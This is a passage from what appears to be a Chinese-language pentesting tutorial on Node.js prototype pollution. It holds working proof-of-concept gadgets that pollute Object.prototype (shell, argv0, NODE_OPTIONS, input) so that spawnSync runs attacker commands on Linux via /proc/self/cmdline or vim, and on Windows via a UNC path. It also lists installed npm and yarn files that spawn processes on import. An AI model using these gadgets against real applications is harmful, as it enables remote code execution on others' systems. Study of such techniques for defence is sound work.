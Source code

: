 ````


// cmdline trick - working with small variation (shell)
// NOT working after kEmptyObject (fix) without options
const { spawnSync } = require('child_process');
p = {}
p.__proto__.shell = "/proc/self/exe" //You need to make sure the node executable is executed
p.__proto__.argv0 = "console.log(require('child_process').execSync('touch /tmp/spawnSync-cmdline').toString())//"
p.__proto__.NODE_OPTIONS = "--require /proc/self/cmdline"
var proc = spawnSync('something');
//var proc = spawnSync('something',[],{"cwd":"/tmp"}); //To work after kEmptyObject (fix)


// stdin trick - working
// NOT working after kEmptyObject (fix) without options
const { spawnSync } = require('child_process');
p = {}
p.__proto__.argv0 = "/usr/bin/vim"
p.__proto__.shell = "/usr/bin/vim"
p.__proto__.input = ':!{touch /tmp/spawnSync-stdin}\n'
var proc = spawnSync('something');
//var proc = spawnSync('something',[],{"cwd":"/tmp"}); //To work after kEmptyObject (fix)

// Windows
// NOT working after require(fix) without options
const { spawnSync } = require('child_process');
p = {}
p.__proto__.shell = "\\\\127.0.0.1\\C$\\Windows\\System32\\calc.exe"
var proc = spawnSync('something');
//var proc = spawnSync('something',[],{"cwd":"C:\\"}); //To work after kEmptyObject (fix)
````

</details>

## 强制执行Spawn

在之前的示例中，您看到了如何触发一个功能，该功能需要调用`spawn`（用于执行某些操作的`child_process`的所有方法都会调用它）。在之前的示例中，这是代码的一部分，但如果代码没有调用它呢。

### 控制require文件路径

在这个[其他解释](https://blog.sonarsource.com/blitzjs-prototype-pollution/)中，用户可以控制文件路径，其中将执行`require`。在这种情况下，攻击者只需要找到系统中将在导入时执行spawn方法的`.js`文件。\
一些常见文件导入时调用spawn函数的示例包括：

* /path/to/npm/scripts/changelog.js
* /opt/yarn-v1.22.19/preinstall.js
* 查找下面的更多文件

以下简单脚本将搜索来自`child_process`的调用，而不带任何填充（以避免显示在函数内部的调用）：
